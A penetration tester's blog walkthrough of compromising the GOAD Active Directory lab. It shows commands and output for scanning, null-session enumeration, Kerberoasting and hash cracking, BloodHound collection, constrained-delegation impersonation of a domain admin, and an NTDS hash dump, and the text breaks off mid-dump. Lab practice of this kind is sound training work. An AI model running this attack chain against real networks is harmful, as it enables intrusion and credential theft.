+++
title = 'GOAD - Game of Active Directory - Walkthrough'
date = 2024-08-21T11:33:52-05:00
draft = false
+++


<h1 style="text-align:center">Using Ludus and GOAD To Create Active Directory Firing Range</h1>

<div style="text-align:center">
    
</div>

As a penetration tester, it is crucial to have a stable, easily deployable, and accessible lab in which you can test various attack methods, exploits, and more. I have, in the past, built home labs from scratch using VMWare and a bunch of VMs running simultaneously on an old laptop. While that works pretty well when you are starting out, it can quickly get convoluted and annoying to manage.

To solve this issue, I got myself a dedicated NUC with enough RAM and storage to support 6 to 8 VMs running simultaneously and then I deployed [Proxmox](https://www.proxmox.com/en/) on it. This was the ultimate solution to quick deployments, environment management, and accessibility as everything was controlled through the Proxmox web UI.

Then, I found out about [Ludus](https://ludus.cloud/), an infrastructure management utility developed by Bad Sector Labs. Ludus is essentially a platform built on top of Proxmox which allows the use of Ansible playbooks to deploy environments. Better yet, there are already several environment templates developed for Ludus which will automatically stand up a working, configured Active Directory lab in which you can pwn and own. As a test of Ludus, I decided to spin up the GOAD, or Game of Active Directory, lab which comes pre-configured with a parent + child domains and another domain linked via a trust. GOAD was originally designed by Orange Cyberdefense team and published on [Github](https://github.com/Orange-Cyberdefense/GOAD).

Below is a breakdown of the GOAD setup straight from the Ludus wiki:

<div style="text-align:center"></div>

While I will mostly use this environment for testing my own attacks and what not, my hacker mind could not simply pass up an opportunity to do some pwnage. So to work I went and owned the whole environment. This post is my explanation of what I did to achieve full compromise of this lab.

To install Ludus and GOAD yourself, follow the guides here:

* [Install Ludus](https://docs.ludus.cloud/docs/quick-start/install-ludus)
* [Game of Active Directory Install Guide](https://docs.ludus.cloud/docs/environment-guides/goad)

<hr style="height: 2px">

## Initial Recon

### Nmap

As always, I kicked off an Nmap scan for all 65k TCP ports against the whole lab network, `10.2.10.0/24`. This will help with mapping out what service are available to us to pwn.

```
# nmap --open -p- -Pn -sV -oA recon/10.2.10.0-24_65k-tcp-sV 10.2.10.0/24

Nmap scan report for 10.2.10.10
Host is up (0.000053s latency).
Not shown: 65504 closed tcp ports (reset)
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
80/tcp    open  http          Microsoft IIS httpd 10.0
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2024-08-08 13:46:02Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: sevenkingdoms.local0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: sevenkingdoms.local0., Site: Default-First-Site-Name)
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: sevenkingdoms.local0., Site: Default-First-Site-Name)
3269/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: sevenkingdoms.local0., Site: Default-First-Site-Name)
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
5986/tcp  open  ssl/http      Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
9389/tcp  open  mc-nmf        .NET Message Framing
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  msrpc         Microsoft Windows RPC
49672/tcp open  msrpc         Microsoft Windows RPC
49675/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49676/tcp open  msrpc         Microsoft Windows RPC
49679/tcp open  msrpc         Microsoft Windows RPC
49680/tcp open  msrpc         Microsoft Windows RPC
49684/tcp open  msrpc         Microsoft Windows RPC
49702/tcp open  msrpc         Microsoft Windows RPC
49716/tcp open  msrpc         Microsoft Windows RPC
49773/tcp open  msrpc         Microsoft Windows RPC
MAC Address: BC:24:11:48:FE:D8 (Unknown)
Service Info: Host: KINGSLANDING; OS: Windows; CPE: cpe:/o:microsoft:windows

Nmap scan report for 10.2.10.11
Host is up (0.00012s latency).
Not shown: 65506 closed tcp ports (reset)
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2024-08-08 13:46:08Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: sevenkingdoms.local0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: sevenkingdoms.local0., Site: Default-First-Site-Name)
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: sevenkingdoms.local0., Site: Default-First-Site-Name)
3269/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: sevenkingdoms.local0., Site: Default-First-Site-Name)
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
5986/tcp  open  ssl/http      Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
9389/tcp  open  mc-nmf        .NET Message Framing
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49668/tcp open  msrpc         Microsoft Windows RPC
49672/tcp open  msrpc         Microsoft Windows RPC
49675/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49676/tcp open  msrpc         Microsoft Windows RPC
49681/tcp open  msrpc         Microsoft Windows RPC
49682/tcp open  msrpc         Microsoft Windows RPC
49686/tcp open  msrpc         Microsoft Windows RPC
49711/tcp open  msrpc         Microsoft Windows RPC
49820/tcp open  msrpc         Microsoft Windows RPC
MAC Address: BC:24:11:10:E1:E2 (Unknown)
Service Info: Host: WINTERFELL; OS: Windows; CPE: cpe:/o:microsoft:windows

<snip>
```

The scan spit out several hosts, most of which appeared to be DCs. I kept the output of these scans for reference in case I needed to investigate further. For now, I moved onto launching Responder in the background, just in case we see something come through.

### Responder

I launched the Responder with pretty standard arguments just to see what can be captured by running it in the background. Any authentication requests that I would capture could be later used for relaying if we find a suitable service, such as unsigned SMB or LDAP. However, I could also attempt cracking the NTLMv2 hashes to potentially recover the user’s plaintext password.

<div style="text-align:center"></div>

While Responder caught some hashes for `ROB.STARK`, I did not end up using them as I found some other juicy, low-hanging fruit with Netexec.

### Netexec

I loved CrackMapExec, and now it’s Netexec and I still love it. Highly recommend it if you have not used it previously. It is a super powerful toolkit for interacting with your common services such as SMB, LDAP, RDP, MSSQL, and more.

I used Netexec to enumerate information about SMB-enabled devices within the lab’s IP range. Netexec, upon every interaction with a machine, spits out some valuable information about the host, such as hostname, domain, SMB signing state, and SMB version. So by simply running it across a network range, we can learn quite a bit about a network segment and its devices. <u>No credentials are required for this!</u>

*<u>Note: nxc is simply an alias for the full netexec command. Either one can be used, I use nxc because it has less characters.</u>*

```
# nxc smb 10.2.10.0/24

SMB         10.2.10.12      445    MEEREEN          [*] Windows Server 2016 Standard Evaluation 14393 x64 (name:MEEREEN) (domain:essos.local) (signing:True) (SMBv1:True)
SMB         10.2.10.10      445    KINGSLANDING     [*] Windows 10 / Server 2019 Build 17763 x64 (name:KINGSLANDING) (domain:sevenkingdoms.local) (signing:True) (SMBv1:False)
SMB         10.2.10.11      445    WINTERFELL       [*] Windows 10 / Server 2019 Build 17763 x64 (name:WINTERFELL) (domain:north.sevenkingdoms.local) (signing:True) (SMBv1:False)
SMB         10.2.10.23      445    BRAAVOS          [*] Windows 10 / Server 2019 Build 17763 x64 (name:BRAAVOS) (domain:essos.local) (signing:False) (SMBv1:False)
SMB         10.2.10.22      445    CASTELBLACK      [*] Windows 10 / Server 2019 Build 17763 x64 (name:CASTELBLACK) (domain:north.sevenkingdoms.local) (signing:False) (SMBv1:False)
```

From the above output, I was able to learn that there the following domains exist in the environment:

* ESSOS.LOCAL
* SEVENKINGDOMS.LOCAL
* NORTH.SEVENKINGDOMS.LOCAL

Another thing to note is that the `BRAAVOS.ESSOS.LOCAL` and `CASTELBLACK.NORTH.SEVENKINGDOMS.LOCAL` both do not require SMB signing. As such, I kept them in the back of my mind for any relay attacks I may want to conduct in the future.

Next, I checked all of these hosts for NULL sessions to see if I can get some freebies, such as all users within the domain. With Netexec, if I am checking for NULL sessions, I typically just tell it to spit out the password policy for the domain instead of users. Dumping the user list within large organizations may take a while and if you hit two DCs within the same domain with NULL sessions, the output will be swarmed with users and it will be hard to determine what’s what unless you parse it. So I recommend sticking to `--pass-pol` instead of `--users`.

```
# nxc smb 10.2.10.0/24 -u "" -p "" --pass-pol

SMB         10.2.10.10      445    KINGSLANDING     [*] Windows 10 / Server 2019 Build 17763 x64 (name:KINGSLANDING) (domain:sevenkingdoms.local) (signing:True) (SMBv1:False)
SMB         10.2.10.12      445    MEEREEN          [*] Windows Server 2016 Standard Evaluation 14393 x64 (name:MEEREEN) (domain:essos.local) (signing:True) (SMBv1:True)
SMB         10.2.10.11      445    WINTERFELL       [*] Windows 10 / Server 2019 Build 17763 x64 (name:WINTERFELL) (domain:north.sevenkingdoms.local) (signing:True) (SMBv1:False)
SMB         10.2.10.22      445    CASTELBLACK      [*] Windows 10 / Server 2019 Build 17763 x64 (name:CASTELBLACK) (domain:north.sevenkingdoms.local) (signing:False) (SMBv1:False)
SMB         10.2.10.23      445    BRAAVOS          [*] Windows 10 / Server 2019 Build 17763 x64 (name:BRAAVOS) (domain:essos.local) (signing:False) (SMBv1:False)
SMB         10.2.10.10      445    KINGSLANDING     [+] sevenkingdoms.local\:
SMB         10.2.10.12      445    MEEREEN          [+] essos.local\:
SMB         10.2.10.11      445    WINTERFELL       [+] north.sevenkingdoms.local\:
SMB         10.2.10.23      445    BRAAVOS          [-] essos.local\: STATUS_ACCESS_DENIED
SMB         10.2.10.22      445    CASTELBLACK      [-] north.sevenkingdoms.local\: STATUS_ACCESS_DENIED
SMB         10.2.10.11      445    WINTERFELL       [+] Dumping password info for domain: NORTH
SMB         10.2.10.11      445    WINTERFELL       Minimum password length: 5
SMB         10.2.10.11      445    WINTERFELL       Password history length: 24
SMB         10.2.10.11      445    WINTERFELL       Maximum password age: 311 days 2 minutes
SMB         10.2.10.11      445    WINTERFELL
SMB         10.2.10.11      445    WINTERFELL       Password Complexity Flags: 000000
SMB         10.2.10.11      445    WINTERFELL           Domain Refuse Password Change: 0
SMB         10.2.10.11      445    WINTERFELL           Domain Password Store Cleartext: 0
SMB         10.2.10.11      445    WINTERFELL           Domain Password Lockout Admins: 0
SMB         10.2.10.11      445    WINTERFELL           Domain Password No Clear Change: 0
SMB         10.2.10.11      445    WINTERFELL           Domain Password No Anon Change: 0
SMB         10.2.10.11      445    WINTERFELL           Domain Password Complex: 0
SMB         10.2.10.11      445    WINTERFELL
SMB         10.2.10.11      445    WINTERFELL       Minimum password age: 1 day 4 minutes
SMB         10.2.10.11      445    WINTERFELL       Reset Account Lockout Counter: 5 minutes
SMB         10.2.10.11      445    WINTERFELL       Locked Account Duration: 5 minutes
SMB         10.2.10.11      445    WINTERFELL       Account Lockout Threshold: 5
SMB         10.2.10.11      445    WINTERFELL       Forced Log off Time: Not Set
```

Netexec’s output confirmed for me that `WINTERFELL.NORTH.SEVENKINGDOMS.LOCAL` is susceptible to NULL sessions as it retrieved the `NORTH` domain’s password policy. 

Based on the password policy info, I could tell that there is no password complexity set, and that there is a lockout threshold of 5, with an observation window of 5 minutes. This would allow me to perform sprays (if needed) at a rate of 4 passwords every 6 minutes and prevent user account lockouts. If I would happen to lock somebody out, the configured lockout duration is only 5 minutes, so it would not be a big deal.

Now that I had a NULL sessions target, I proceeded to dump all users for the `NORTH` domain.

```
# nxc smb 10.2.10.11 -u "" -p "" --users

SMB         10.2.10.11      445    WINTERFELL       [*] Windows 10 / Server 2019 Build 17763 x64 (name:WINTERFELL) (domain:north.sevenkingdoms.local) (signing:True) (SMBv1:False)
SMB         10.2.10.11      445    WINTERFELL       [+] north.sevenkingdoms.local\:
SMB         10.2.10.11      445    WINTERFELL       -Username-                    -Last PW Set-       -BadPW- -Description-
SMB         10.2.10.11      445    WINTERFELL       Guest                         <never>             0       Built-in account for guest access to the computer/domain
SMB         10.2.10.11      445    WINTERFELL       arya.stark                    2024-08-08 00:48:18 0       Arya Stark
SMB         10.2.10.11      445    WINTERFELL       sansa.stark                   2024-08-08 00:48:29 0       Sansa Stark
SMB         10.2.10.11      445    WINTERFELL       brandon.stark                 2024-08-08 00:48:32 0       Brandon Stark
SMB         10.2.10.11      445    WINTERFELL       rickon.stark                  2024-08-08 00:48:34 0       Rickon Stark
SMB         10.2.10.11      445    WINTERFELL       hodor                         2024-08-08 00:48:37 0       Brainless Giant
SMB         10.2.10.11      445    WINTERFELL       jon.snow                      2024-08-08 00:48:40 0       Jon Snow
SMB         10.2.10.11      445    WINTERFELL       samwell.tarly                 2024-08-08 00:48:42 0       Samwell Tarly (Password : Heartsbane)
SMB         10.2.10.11      445    WINTERFELL       jeor.mormont                  2024-08-08 00:48:45 0       Jeor Mormont
SMB         10.2.10.11      445    WINTERFELL       sql_svc                       2024-08-08 00:48:48 0       sql service
SMB         10.2.10.11      445    WINTERFELL       [*] Enumerated 10 local users: NORTH
```

Not many users existed within the domain; however, I did notice within Netexec’s output that `SAMWELL.TARLY`‘s account had their password, Heartsbane, leaked within the account’s description field within Active Directory. <u>I have seen this in live client environments, especially for odd service accounts, keep this in your back pocket on pentests!</u> 

I validated the user’s credentials just to ensure they are correct. If so, it would grant me an authenticated foothold without having to do anything else!

```
# nxc smb 10.2.10.11 -u samwell.tarly -p Heartsbane

SMB         10.2.10.11      445    WINTERFELL       [*] Windows 10 / Server 2019 Build 17763 x64 (name:WINTERFELL) (domain:north.sevenkingdoms.local) (signing:True) (SMBv1:False)
SMB         10.2.10.11      445    WINTERFELL       [+] north.sevenkingdoms.local\samwell.tarly:Heartsbane
```

Netexec did not report any issues and returned `[+]`, indicating successful authentication. *(In console, the `[+]` is highlighted in green as well)*

With an authenticated foothold achieved, I tested trusts between the domains as we know there are three total domains in the lab. To do so, I simply used `SAMWELL.TARLY@NORTH.SEVENKINGDOMS.LOCAL` credentials and authenticated against the other two domains’ DCs. 

```
# nxc smb 10.2.10.10 -u samwell.tarly -p Heartsbane -d north.sevenkingdoms.local

SMB         10.2.10.10      445    KINGSLANDING     [*] Windows 10 / Server 2019 Build 17763 x64 (name:KINGSLANDING) (domain:sevenkingdoms.local) (signing:True) (SMBv1:False)
SMB         10.2.10.10      445    KINGSLANDING     [+] north.sevenkingdoms.local\samwell.tarly:Heartsbane

# nxc smb 10.2.10.12 -u samwell.tarly -p Heartsbane -d north.sevenkingdoms.local

SMB         10.2.10.12      445    MEEREEN          [*] Windows Server 2016 Standard Evaluation 14393 x64 (name:MEEREEN) (domain:essos.local) (signing:True) (SMBv1:True)
SMB         10.2.10.12      445    MEEREEN          [+] north.sevenkingdoms.local\samwell.tarly:Heartsbane
```

Got successful auth on both fronts! That means I got authenticated access to all three domains and could perform enumeration of all three from this point forward.

## Authenticated Foothold

### Kerberoasting

Before diving into advanced attack paths and complicated exploits after gaining authenticated foothold, I always check for low hanging fruit first.  Checking for Kerberoastable accounts is one of many initial checks I perform as these may often have administrative privileges. Also, if they are configured with a weak password, I may be able to crack them and instantly boost my privileges. 

There are many ways you can perform Kerberoasting, I usually resort to Impacket’s GetUserSPNs.py. I used the credentials we just attained and launched the tool whilte specifying the DC to target.

*Note: you can avoid having to specify the DC and DNS servers in the lab by either configuring a DNS server on your Kali or by using the /etc/hosts file and creating an entry for each domain. I did not do so as I was flying through this, but just an FYI.*

```
# GetUserSPNs.py north.sevenkingdoms.local/samwell.tarly:Heartsbane -dc-ip 10.2.10.11

Impacket v0.11.0 - Copyright 2023 Fortra

ServicePrincipalName                                 Name         MemberOf                                                    PasswordLastSet             LastLogon                   Delegation
---------------------------------------------------  -----------  ----------------------------------------------------------  --------------------------  --------------------------  -------------
HTTP/eyrie.north.sevenkingdoms.local                 sansa.stark  CN=Stark,CN=Users,DC=north,DC=sevenkingdoms,DC=local        2024-08-07 20:48:29.396581  <never>                     unconstrained
CIFS/thewall.north.sevenkingdoms.local               jon.snow     CN=Night Watch,CN=Users,DC=north,DC=sevenkingdoms,DC=local  2024-08-07 20:48:40.212387  <never>                     constrained
HTTP/thewall.north.sevenkingdoms.local               jon.snow     CN=Night Watch,CN=Users,DC=north,DC=sevenkingdoms,DC=local  2024-08-07 20:48:40.212387  <never>                     constrained
MSSQLSvc/castelblack.north.sevenkingdoms.local       sql_svc                                                                  2024-08-07 20:48:48.011689  2024-08-07 21:05:52.166336
MSSQLSvc/castelblack.north.sevenkingdoms.local:1433  sql_svc                                                                  2024-08-07 20:48:48.011689  2024-08-07 21:05:52.166336
```

The output indicated that I had three potential accounts to target:

* `SANSA.STARK`
* `JON.SNOW`
* `SQL_SVC`

I re-ran the tool while specifying the `-request` and `-outputfile <path>` arguments to request Kerberos tickets for all three accounts and save them to a file.

```
# GetUserSPNs.py north.sevenkingdoms.local/samwell.tarly:Heartsbane -dc-ip 10.2.10.11 -request -outputfile creds/north.kerbs
# cat creds/north.kerbs

$krb5tgs$23$*sansa.stark$NORTH.SEVENKINGDOMS.LOCAL$north.sevenkingdoms.local/sansa.stark*$56b7b748e73234176b5d3123d029c5f4$58bbd4b730dcb20a557a300087036f07ce219faaa7365d015<snip>
$krb5tgs$23$*jon.snow$NORTH.SEVENKINGDOMS.LOCAL$north.sevenkingdoms.local/jon.snow*$01a86a48e11fc1f757c0347a0d3075ba$f5f96ccaf14a782728c78d0fb9b24cc843341c82f9d484e831915fb<snip>
$krb5tgs$23$*sql_svc$NORTH.SEVENKINGDOMS.LOCAL$north.sevenkingdoms.local/sql_svc*$f2abec2741b3f30e08128af383e6447f$b6580155397a68855744570f1e05e1505b04ed982f11543df8e642023<snip>
```

I threw these at my cracking rig setup to see if anything cracks. My cracking rig is nothing special, it is literally my gaming PC with a 1060 in it. It is not very powerful but it is sufficient for cracking easy hashes. Also, I use Hashcat. Here’s the command I used to run these hashes through Hashcat:

```
Hashcat.exe -m 13100 -a 0 -O -w 4 --force --status -r rules\OneRuleToRuleThemAll.rule -o cracked-output.txt hashes.txt PASSWORD_LISTS*.txt
```

Without getting too much into it, the command spits out successful cracks to the `cracked-output.txt` file. The hashes for cracking are in `hashes.txt`. The `-m 13100` argument denotes the type of hash I am supplying, Kerberoast hashes in this case. The `-r` argument configured the various rules for Hashcat, and `PASSWORD_LISTS*.txt` is pretty self explanatory.

While I let these hashes crack in the background, I went ahead and proceeded with authenticated enumeration.

### Bloodhound

To learn more about the environment and each domain’s structure, I turned to my favorite tool, Bloodhound. Bloodhound essentially collects information about a target domain by performing various queries, mainly LDAP, and allows for browsing of the data via a mind-map-like GUI.

*Note: at the time of writing this, I am using a `bloodhound-ce` branch of the [Bloodhound.py](https://github.com/dirkjanm/BloodHound.py/tree/bloodhound-ce). This is because I’ve moved over to using Bloodhound-CE and this version of `bloodhound.py` supports collection of data for it.*

First I ran the Bloodhound data collection script against the `NORTH.SEVENKINGDOMS.LOCAL` domain.

```
# bloodhound-python -u samwell.tarly -p Heartsbane -d north.sevenkingdoms.local -ns 10.2.10.11 -c All --zip

INFO: Found AD domain: north.sevenkingdoms.local
WARNING: Could not find a global catalog server, assuming the primary DC has this role
If this gives errors, either specify a hostname with -gc or disable gc resolution with --disable-autogc
INFO: Getting TGT for user
WARNING: Failed to get Kerberos TGT. Falling back to NTLM authentication. Error: [Errno Connection error (winterfell.north.sevenkingdoms.local:88)] [Errno -2] Name or service not known
INFO: Connecting to LDAP server: winterfell.north.sevenkingdoms.local
INFO: Found 1 domains
INFO: Found 2 domains in the forest
INFO: Found 2 computers
INFO: Connecting to GC LDAP server: winterfell.north.sevenkingdoms.local
INFO: Connecting to LDAP server: winterfell.north.sevenkingdoms.local
INFO: Found 17 users
INFO: Found 51 groups
INFO: Found 3 gpos
INFO: Found 1 ous
INFO: Found 19 containers
INFO: Found 1 trusts
INFO: Starting computer enumeration with 10 workers
INFO: Querying computer: castelblack.north.sevenkingdoms.local
INFO: Querying computer: winterfell.north.sevenkingdoms.local
INFO: Done in 00M 00S
INFO: Compressing output into 20240808110221_bloodhound.zip
```

I also did this for the other two domains since the creds were valid for them too (remember trusts I tested earlier). I simply replaced the `-d` argument with `essos.local`, added `@north.sevenkingdoms.local` to my username, and changed the `-ns` value to point to a DC of the target domain. Example:

```
bloodhound-python -u samwell.tarly@north.sevenkingdoms.local -p Heartsbane -d essos.local -ns 10.2.10.12 -c All --zip
```

After collecting all the zipped up JSON files from the three Bloodhound ingestor runs, I uploaded them to my Bloodhound CE running via Docker.

### Privilege Escalation

I checked back with my cracking rig to peep at the progress. At this time, two passwords were recovered out of the three supplied hashes. These passwords belonged to `SANSA.STARK` and `JON.SNOW`:

```
sansa.stark : 345ertdfg
jon.snow : iknownothing
```

Since I collected Bloodhound data, I analyzed these users’ access, starting with `SANSA.STARK`. At first glance, she did not hold any interesting privileges that would allow us easy privilege escalation. She was, however, a member of a `STARK` group which was part of `REMOTE DESKTOP USERS`.

<div style="text-align:center"></div>

This may be useful if I would want to RDP into machines later on. I also checked `JON.SNOW`‘s permissions. He possessed some very valuable rights. In particular, he had constrained delegation privileges to `WINTERFELL.NORTH.SEVENKINGDOMS.LOCAL`, which is a Domain Controller.

<div style="text-align:center"></div>

I could leverage this to perform DCSync via Secretsdump, from Impacket.

## First Domain Compromise

### Exploiting Constrained Delegation

To leverage JON.SNOW‘s constrained delegation privileges, I used the `getST.py` utility from Impacket to request a Kerberos ticket for the `CIFS` service on the `WINTERFELL` DC while impersonating a Domain Admin account. I used Bloodhound to check who the DAs were in the `NORTH` domain, and `EDDARD.STARK` was one of them.

*Note: if you are confused as to why I was able to impersonate the DA account, I recommend learning more about constrained delegation. [This blog post](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/constrained-delegation) has a decent write-up on it without going into too much detail.*

```
# getST.py -spn "CIFS/WINTERFELL.NORTH.SEVENKINGDOMS.LOCAL" -impersonate "EDDARD.STARK" north.sevenkingdoms.local/jon.snow:iknownothing -dc-ip 10.2.10.11

Impacket v0.11.0 - Copyright 2023 Fortra
[-] CCache file is not found. Skipping...
[*] Getting TGT for user
[*] Impersonating EDDARD.STARK
[*]     Requesting S4U2self
[*]     Requesting S4U2Proxy
[*] Saving ticket in EDDARD.STARK.ccache
```

The command will result in a `.ccache` file being written, `EDDARD.STARK.ccache` in my case. I could then set the `KRB5CCNAME` variable with the path to my ccache file, and use tools that support Kerberos authentication. To easily test my ticket to ensure it works fine, I used Netexec.

```
# KRB5CCNAME=./EDDARD.STARK.ccache nxc smb 10.2.10.11 --use-kcache

SMB         10.2.10.11      445    WINTERFELL       [*] Windows 10 / Server 2019 Build 17763 x64 (name:WINTERFELL) (domain:north.sevenkingdoms.local) (signing:True) (SMBv1:False)
SMB         10.2.10.11      445    WINTERFELL       [+] north.sevenkingdoms.local\EDDARD.STARK from ccache (Pwn3d!)
```

Netexec returns the `Pwn3d` phrase when it detects the authenticating user to hold admin rights over the target *(I think it attempts to access the ADMIN$ share on the device to do so)*. This essentially confirms I successfully gained DA-level privileges.

### NTDS Dump

To complete the compromise of `NORTH`, I went ahead and dumped the hashes for all users. Million ways to skin a cat in this case, I used Netexec’s `ntdsutil` module because Secretsdump was giving me grief.

```
# KRB5CCNAME=./EDDARD.STARK.ccache nxc smb 10.2.10.11 --use-kcache -M ntdsutil

SMB         10.2.10.11      445    WINTERFELL       [*] Windows 10 / Server 2019 Build 17763 x64 (name:WINTERFELL) (domain:north.sevenkingdoms.local) (signing:True) (SMBv1:False)
SMB         10.2.10.11      445    WINTERFELL       [+] north.sevenkingdoms.local\EDDARD.STARK from ccache (Pwn3d!)
NTDSUTIL    10.2.10.11      445    WINTERFELL       [*] Dumping ntds with ntdsutil.exe to C:\Windows\Temp\172323029
NTDSUTIL    10.2.10.11      445    WINTERFELL       Dumping the NTDS, this could take a while so go grab a redbull...
NTDSUTIL    10.2.10.11      445    WINTERFELL       [+] NTDS.dit dumped to C:\Windows\Temp\172323029
NTDSUTIL    10.2.10.11      445    WINTERFELL       [*] Copying NTDS dump to /tmp/tmp9hbwtkg4
NTDSUTIL    10.2.10.11      445    WINTERFELL       [*] NTDS dump copied to /tmp/tmp9hbwtkg4
NTDSUTIL    10.2.10.11      445    WINTERFELL       [+] Deleted C:\Windows\Temp\172323029 remote dump directory
NTDSUTIL    10.2.10.11      445    WINTERFELL       [+] Dumping the NTDS, this could take a while so go grab a redbull...
NTDSUTIL    10.2.10.11      445    WINTERFELL       KINGSLANDING$:1001:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.2.10.11      445    WINTERFELL       Administrator:500:aad3b435b51404eeaad3b435b51404ee:dbd13e1c4e338284ac4e9874f7de6ef4:::
